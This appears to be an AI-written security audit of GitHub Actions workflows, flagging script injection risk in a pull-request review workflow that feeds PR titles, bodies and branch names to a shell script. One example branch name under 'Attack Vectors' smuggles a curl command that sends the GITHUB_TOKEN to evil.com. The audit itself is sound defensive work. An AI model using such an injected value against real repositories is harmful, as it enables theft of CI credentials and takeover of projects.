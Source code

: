 # GitHub Actions Untrusted Input Security Audit

## Executive Summary

⚠️ **POTENTIAL VULNERABILITIES FOUND**: Your workflows have some exposure to untrusted input handling issues, but **the impact is MITIGATED** by your current security architecture.

## Vulnerability Analysis

Based on the [GitHub Security Lab guidelines for untrusted input](https://securitylab.github.com/resources/github-actions-untrusted-input/), I found several areas where your workflows process potentially attacker-controlled data.

### 🔴 HIGH RISK: Script Injection in pr-review.yml

**File**: `.github/workflows/pr-review.yml`
**Risk Level**: HIGH - Potential command injection

**Problem**: The workflow processes untrusted PR content that could be weaponized:

```yaml
# VULNERABLE PATTERN - Untrusted data passed to shell script
PR_TITLE: ${{ github.event.pull_request.title }}
PR_DESCRIPTION: ${{ github.event.pull_request.body }}
PR_AUTHOR: ${{ github.event.pull_request.user.login }}
BASE_REF: ${{ github.event.pull_request.base.ref }}
HEAD_REF: ${{ github.event.pull_request.head.ref }}
# ... then runs:
run: |
  cat /tmp/pr-diff.txt | bash .github/scripts/pr-review.sh
```

**Attack Vectors**:
1. **PR Diff Injection**: Malicious code in PR diff files
2. **Branch Name Injection**: Branch names like `feat"; curl evil.com?token=$GITHUB_TOKEN;#`
3. **Title/Body Injection**: Malicious content in PR titles, descriptions, or bodies

**Supporting Script Risk**: `.github/scripts/pr-review.sh` uses untrusted environment variables:

```bash
# DANGEROUS - Uses untrusted variables that could contain malicious code
PR_CONTEXT=$(cat <<EOF
Pull Request Details:
Title: ${PR_TITLE}
Author: ${PR_AUTHOR}
Base Branch: ${BASE_REF}
Head Branch: ${HEAD_REF}
Description:
${PR_DESCRIPTION}
EOF
)
```
